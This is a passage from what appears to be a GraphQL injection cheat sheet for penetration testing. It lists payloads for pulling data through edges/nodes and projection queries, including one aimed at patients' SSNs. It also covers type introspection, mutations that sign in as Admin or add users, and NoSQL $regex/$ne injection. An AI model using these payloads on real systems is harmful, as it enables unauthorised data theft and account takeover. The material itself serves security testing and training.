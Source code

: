 ### Extract data

```js
example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}}
```

![HTB Help - GraphQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/Images/htb-help.png?raw=true)



### Extract data using edges/nodes

```json
{
  "query": "query {
    teams{
      total_count,edges{
        node{
          id,_id,about,handle,state
        }
      }
    }
  }"
} 
```

### Extract data using projections

:warning: Don’t forget to escape the " inside the **options**.

```json
{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
```


### Enumerate the types' definition 

Enumerate the definition of interesting types using the following GraphQL query, replacing "User" with the chosen type

```javascript
{__type (name: "User") {name fields{name type{name kind ofType{name kind}}}}}
```

### Use mutations

Mutations work like function, you can use them to interact with the GraphQL.

```javascript
# mutation{signIn(login:"Admin", password:"secretp@ssw0rd"){token}}
# mutation{addUser(id:"1", name:"Dan Abramov", email:"dan@dan.com") {id name email}}
```

### NOSQL injection

Use `$regex`, `$ne` from []() inside a `search` parameter.
